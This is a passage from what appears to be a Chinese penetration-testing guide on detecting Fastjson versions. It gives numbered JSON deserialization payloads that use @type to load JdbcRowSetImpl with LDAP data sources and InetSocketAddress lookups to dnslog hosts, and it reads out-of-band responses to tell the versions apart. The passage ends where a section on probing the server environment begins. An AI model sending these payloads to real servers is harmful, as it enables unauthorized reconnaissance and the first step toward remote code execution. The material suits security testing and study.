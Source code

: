 `payload30`（组合拳）：
```json
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```
```json
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```
如果下面比上面响应快，说明版本处于`1.2.9`和`1.2.11`之间。
## 2.4 关键版本探测
### 2.4.1 v1.2.24
直接用`2.3`中所提到的延时判断方法即可。
### 2.4.2 v1.2.47
`payload31`：
```json
{"username":{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}}
```
或者：
```json
[{"@type": "java.lang.Class","val": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"}}]
```
都是可以的：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697707675616-30cb414f-6521-496f-be36-8b7252761164.png#averageHue=%239ed4d8&clientId=u34d78b8a-7ddf-4&from=paste&height=360&id=ucb7ffd27&originHeight=360&originWidth=1593&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69454&status=done&style=none&taskId=u25859ca7-4de1-4dfe-a78b-1d20660ce40&title=&width=1593)
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697707695032-d625c547-6786-497c-900c-a59d85ae44d2.png#averageHue=%23fdfcfb&clientId=u34d78b8a-7ddf-4&from=paste&height=415&id=ubb4a1593&originHeight=415&originWidth=1908&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38275&status=done&style=none&taskId=ufc952d28-b2bc-4acd-b67f-23804a6e2bc&title=&width=1908)
### 2.4.3 v1.2.68
`payload32`：
```json
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "mwhajokbdd.dgrh3.cn"}}]
```
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697707989609-73940d77-45f0-4a07-9448-f0ccda705efe.png#averageHue=%239dd4d8&clientId=u34d78b8a-7ddf-4&from=paste&height=366&id=u7402334a&originHeight=366&originWidth=1595&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68728&status=done&style=none&taskId=u31fd9529-71a3-479d-97cf-b4fcaa17e89&title=&width=1595)![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697708003429-bd5a430a-411c-4b18-9832-102db5693e6c.png#averageHue=%23fdfcfb&clientId=u34d78b8a-7ddf-4&from=paste&height=395&id=ucde1e716&originHeight=395&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31922&status=done&style=none&taskId=u8084db68-d2ae-47c8-9db2-a0c4fa421de&title=&width=1920)
### 2.4.4 v1.2.80与v1.2.83
需要准备两个`dnslog`地址，我这里`yakit`上开一个`dnslog.cn`开一个。
`payload33`：
```json
[{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","x": {"@type": "java.net.InetSocketAddress"{"address":,"val": "xfjdbd.dnslog.cn"}}},{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","message": {"@type": "java.net.InetSocketAddress"{"address":,"val": "uawcowbohf.dgrh3.cn"}}}]
```
如果第一个收到响应而第二个没有收到，说明版本为`1.2.80`：
![第一个已收到](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708407766-7b4f1a89-5189-4f84-875a-eb04a13a43ef.png#averageHue=%23c29856&clientId=u34d78b8a-7ddf-4&from=paste&height=398&id=ud779d855&originHeight=398&originWidth=866&originalType=binary&ratio=1&rotation=0&showTitle=true&size=29524&status=done&style=none&taskId=uad9794d1-5c37-4e52-88c6-4c57c9ddd22&title=%E7%AC%AC%E4%B8%80%E4%B8%AA%E5%B7%B2%E6%94%B6%E5%88%B0&width=866 "第一个已收到")
![第二个未收到](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708382070-762c5fcc-1922-4f4e-8c3d-f5c37e772445.png#averageHue=%23fdfcfb&clientId=u34d78b8a-7ddf-4&from=paste&height=675&id=u752ee440&originHeight=675&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=true&size=60394&status=done&style=none&taskId=ube07ee45-11b9-41c8-bc8e-e83ac678aac&title=%E7%AC%AC%E4%BA%8C%E4%B8%AA%E6%9C%AA%E6%94%B6%E5%88%B0&width=1920 "第二个未收到")
如果两个都收到了，说明版本是`1.2.83`：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697708530205-814b4c08-2e20-459b-959d-b06391254d72.png#averageHue=%238bc6e2&clientId=u34d78b8a-7ddf-4&from=paste&height=456&id=ubfd0d878&originHeight=456&originWidth=1597&originalType=binary&ratio=1&rotation=0&showTitle=false&size=80015&status=done&style=none&taskId=u936967db-0cf7-4e04-b20b-d5641905dc2&title=&width=1597)
![第一个已收到](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708573983-a6fb45de-cfd3-467c-8993-dfa58b0275bf.png#averageHue=%23c39d5d&clientId=u34d78b8a-7ddf-4&from=paste&height=434&id=u21031730&originHeight=434&originWidth=786&originalType=binary&ratio=1&rotation=0&showTitle=true&size=32681&status=done&style=none&taskId=u0fabfaf0-d2e4-4226-8826-d16bcb5bbc6&title=%E7%AC%AC%E4%B8%80%E4%B8%AA%E5%B7%B2%E6%94%B6%E5%88%B0&width=786 "第一个已收到")
![第二个已收到](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708543840-a3a99b6c-0b31-4e57-a416-0182b474e51c.png#averageHue=%23fdfcfc&clientId=u34d78b8a-7ddf-4&from=paste&height=416&id=u0e1aaa33&originHeight=416&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=true&size=31096&status=done&style=none&taskId=u10b69852-d918-4c6e-9a6e-70f922d34ad&title=%E7%AC%AC%E4%BA%8C%E4%B8%AA%E5%B7%B2%E6%94%B6%E5%88%B0&width=1920 "第二个已收到")
# 三、探测服务器环境
## 3.1 空值判断法
待探测列表如下：
